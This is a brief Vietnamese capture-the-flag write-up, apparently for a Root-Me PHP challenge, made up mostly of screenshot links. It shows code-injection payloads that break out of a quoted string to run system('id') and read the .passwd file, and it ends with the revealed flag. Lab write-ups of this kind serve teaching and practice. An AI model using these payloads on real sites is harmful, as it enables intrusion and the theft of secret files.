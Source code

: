 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/081c8e11-47dc-4c7d-b38c-0e48c6db9c8f)![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/429c1696-6aa3-4a01-bb8c-abdd7ddb0bc8)

URL hiển thì ```?page=about```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/5a6444ee-4810-42f3-81da-e9157ab66152)

Khi thử lỗi path traversal thì nhận được cảnh báo. Có vẻ như nó sẽ thêm extension ".php" vào cuối 

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/2fef656e-f218-4e8e-bc7b-44469fa40e73)

Sử dụng payload ```' and die(system("id")) or '```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/04260596-2fdb-4111-8265-0563922b69a5)

=> Thành công

 giờ ta sử dụng ``` ' and die(file_get_contents(".passwd")) or '``` để xem file ".passwd"
 
![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/2d42a9a4-6d81-4d5b-9fd6-646b2fb5d1d6)

=> x4Ss3rT1nglSn0ts4f3A7A1Lx
